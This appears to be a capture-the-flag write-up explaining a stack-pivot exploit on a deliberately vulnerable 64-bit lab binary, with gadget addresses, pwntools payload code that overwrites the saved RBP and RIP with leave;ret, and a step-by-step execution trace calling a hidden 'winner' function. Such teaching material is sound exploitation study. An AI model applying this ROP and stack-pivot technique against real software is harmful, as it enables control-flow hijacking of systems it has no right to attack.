

# Stack Pivot `leave`

---

## 1. Vulnerability Background

The binary `vuln` is a 64-bit ELF with a stack buffer overflow.
It leaks the stack buffer’s address (`to: 0x7ff…`) and then reads input unsafely.

Goal: Call the hidden function `winner(int arg1, int arg2)` with controlled arguments.

Key details:

* NX is enabled (we cannot run shellcode).
* Buffer offset to **saved RBP** = 96 bytes.
* Buffer offset to **saved RIP** = 104 bytes.

---

## 2. Available Gadgets

Using `ROPgadget` or pwntools `ROP` we find:

* **Stack pivot gadget**

  ```
  0x40117c : leave ; ret
  ```

  (shorthand for `mov rsp, rbp ; pop rbp ; ret`).

* **Argument control gadgets**

  ```
  0x40122b : pop rdi ; ret              # controls arg1
  0x401229 : pop rsi ; pop r15 ; ret    # controls arg2
  ```

---

## 3. Strategy

Instead of a normal ROP chain at the return address, we use **stack pivoting**:

1. Leak the buffer address.
2. Place a fake stack frame inside the buffer containing our ROP chain:

   * dummy `rbp`
   * `pop rdi ; ret` → set `rdi = 0xdeadbeef`
   * `pop rsi ; pop r15 ; ret` → set `rsi = 0xdeadc0de`
   * jump into `winner`
3. Overwrite saved RBP with the buffer’s address.
4. Overwrite saved RIP with `leave; ret`.
5. On function epilogue, execution pivots into our fake stack and runs the chain.

---

## 4. Payload Layout

### Fake ROP Chain (inside buffer)

```python
payload = flat(
    0x0,               # fake rbp (used by pop rbp inside leave)
    POP_RDI,           # next RIP after leave
    0xdeadbeef,        # arg1
    POP_RSI_R15,       # next RIP
    0xdeadc0de,        # arg2
    0x0,               # r15 filler
    elf.sym['winner']  # call winner(rdi, rsi)
)
```

### Padding to reach saved RBP

```python
payload = payload.ljust(96, b'A')
```

### Overwrite saved RBP and RIP

```python
payload += flat(
    buffer,       # new RBP → points into our fake chain
    LEAVE_RET     # new RIP → executes leave; ret
)
```

---

## 5. Execution Flow

1. Function returns → executes `leave; ret`.

   * `mov rsp, rbp` → `rsp = buffer`
   * `pop rbp` → loads fake rbp (0) from buffer
   * `ret` → pops next qword → `rip = POP_RDI`

2. Execution continues at buffer+0x08:

   * `pop rdi ; ret` → sets `rdi = 0xdeadbeef`, `rip = POP_RSI_R15`

3. Next gadget:

   * `pop rsi ; pop r15 ; ret` → sets `rsi = 0xdeadc0de`, discards dummy r15, `rip = winner`

4. Control flow reaches `winner(0xdeadbeef, 0xdeadc0de)` successfully. 🎉


---





